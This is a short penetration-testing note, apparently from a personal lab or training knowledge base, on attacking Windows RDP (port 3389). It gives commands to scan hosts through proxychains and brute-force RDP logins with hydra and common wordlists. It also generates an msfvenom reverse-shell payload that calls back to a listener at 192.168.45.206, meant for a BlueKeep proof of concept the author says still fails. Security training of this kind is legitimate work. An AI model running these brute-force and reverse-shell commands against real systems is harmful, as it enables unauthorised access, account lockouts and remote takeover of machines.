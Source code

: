 #service 
<% tp.file.rename("1_RDP_3389")%>
☑️
> Auch ms-wbt-server

## Check for machines that have it enabled
```bash
proxychains nmap -Pn -sT -p3389 $(cat /etc/hosts | grep 172 | cut -f 1 | tr '\n' ' ')
```
## Bruteforce default credentials
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/windows-betterdefaultpasslist.txt rdp://$hip -vV -t 1 -I -s 3389
```
	CAREFUL, likely to lock accounts!
Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt rdp://$hip -V -t 4 -I -s 3389
```
## Connect to RDP
```bash
connect-windows $hip [$user] [$password]
```

## BlueKeep
<= Windows 7 or <= Windows Server 2008
Payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.206 LPORT=4545 -f py
```
Integrate it at `win7_32_poc.py` where it states "`# replace buf with your shellcode`"
> Currently still fails, a python dependency issue